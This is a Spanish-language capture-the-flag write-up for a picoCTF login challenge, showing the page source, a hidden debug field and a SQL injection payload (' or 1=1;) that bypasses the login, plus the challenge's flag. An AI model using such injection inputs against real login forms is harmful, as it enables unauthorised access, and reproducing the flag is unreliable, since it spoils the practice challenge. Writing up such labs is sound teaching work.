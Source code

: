 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. 
Do you think you can log us in? Try to see if you can login!
## Solución
- ##### Se analiza el código fuente de la página, se observa que hay un form para usuario y password. Se cambia el valor de "hidden" a 1, para hacer que ya no esté oculto.
``` html
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

- ##### Al tratar de iniciar sesión como "admin", no podemos iniciar, pero el valor "hidden" nos muestra la consulta que se hace a una base de datos, por lo que trataremos de realizar una inyección SQL para obtener la bandera.
```
CONSULTA SQL NORMAL
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'

Login failed.

CONSULTA SQL INYECTADA
username: ' or 1=1;
password: inyeccion
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='inyeccion'

Logged in!

Your flag is: picoCTF{s0m3_SQL_c218b685}
```
## Notas Adicionales
- SQL injection is a code injection technique that might destroy your database, is one of the most common web hacking techniques and is the placement of malicious code in SQL statements, via web page input.
## Referencias
- [PicoCTF](https://play.picoctf.org)
- [PicoCTF Writeups](https://www.youtube.com/playlist?list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&authuser=0)